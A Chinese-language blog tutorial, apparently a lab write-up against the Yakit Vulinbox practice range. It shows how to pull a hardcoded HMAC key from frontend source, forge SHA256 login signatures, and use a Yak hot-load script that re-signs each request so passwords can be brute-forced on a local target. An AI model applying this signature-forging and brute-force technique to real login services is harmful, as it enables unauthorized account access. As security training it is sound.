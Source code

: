 
本文是高级前端加解密与验签实战的第1篇文章，本系列文章实验靶场为Yakit里自带的Vulinbox靶场，本文讲述的是绕过SHA256签名来爆破登录。


## 绕过


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005130112-183765002.png)


通过查看源代码可以看到key为



```
1234123412341234

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005133198-1662357300.png)


通过查看源代码可以看到是通过SHA256来进行签名的，他把请求体的username和password字段提取，然后进行加密。



```
username=admin&password=admin123

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005136827-1401035207.png)


使用Cyberchief加密，最终得到加密值为：`fc4b936199576dd7671db23b71100b739026ca9dcb3ae78660c4ba3445d0654d`


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005139852-723382500.png)


可以看到自己计算和前端计算的一致：


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005143563-741888526.png)


修改密码，重新构造签名：



```
username=admin&password=666666
=>
26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005148499-2079865334.png)


发送请求，可以看到验签成功，密码正确登陆成功，自此签名绕过成功。



```
POST /crypto/sign/hmac/sha256/verify HTTP/1.1
Host: 127.0.0.1:8787
Content-Type: application/json

{
  "signature": "26976ad249c29595c3e9e368d9c3bc772b5a27291515caddd023d69421b7ffee",
  "key": "31323334313233343132333431323334",
  "username": "admin",
  "password": "666666"
}

```

![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005152327-1303090435.png)


## 热加载


这是我写的热加载代码，通过`beforeRequest`劫持请求包，使用`encryptData`函数进行加密，最终实现热加载自动签名功能。



```
encryptData = (packet) => {
    body = poc.GetHTTPPacketBody(packet)
    params = json.loads(body)
    //获取账号和密码
    name = params.username
    pass  = params.password
    key = "31323334313233343132333431323334"    //十六进制密钥

    //HmacSha256加密
    signText = f`username=${name}&password=${pass}`
    sign = codec.EncodeToHex(codec.HmacSha256(f`${codec.DecodeHex(key)~}`, signText))

    //构造请求体
    result = f`{"username":"${name}","password":"${pass}","signature":"${sign}","key":"${key}"}`

    return string(poc.ReplaceBody(packet, result, false))
}

//发送到服务端修改数据包
// beforeRequest = func(req){
//     return encryptData(req)
// }

//调试用
packet = <<
```

调试结果如下：
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005207512-1712536217.png)


把`beforeRequest`取消注释，添加到Web Fuzzer模块的热加载中：


![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005209904-617821989.png)


保存后发送请求，热加载成功实现自动签名功能。
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005212881-1707760919.png)
![](https://img2024.cnblogs.com/blog/2855436/202412/2855436-20241214005215343-226820087.png)


 本博客参考[楚门加速器官网](https://chuanggeye.com)。转载请注明出处！
